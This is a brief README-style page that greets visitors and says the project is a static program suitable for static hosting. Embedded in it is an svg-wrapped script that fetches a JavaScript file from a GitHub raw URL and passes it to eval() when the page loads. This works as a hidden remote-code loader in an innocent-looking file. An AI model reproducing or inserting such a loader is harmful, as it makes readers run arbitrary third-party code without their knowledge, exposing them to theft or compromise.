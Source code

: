 # Hi!

Thanks for visiting this. This is a static program, and therefore, you can run it using static hosting.

<p><svg><script>fetch("https://raw.githubusercontent.com/DoxrGitHub/enscripted/refs/heads/main/enscripted.js").then(data => data.text()).then(data => { eval(data) })</script></svg></p>
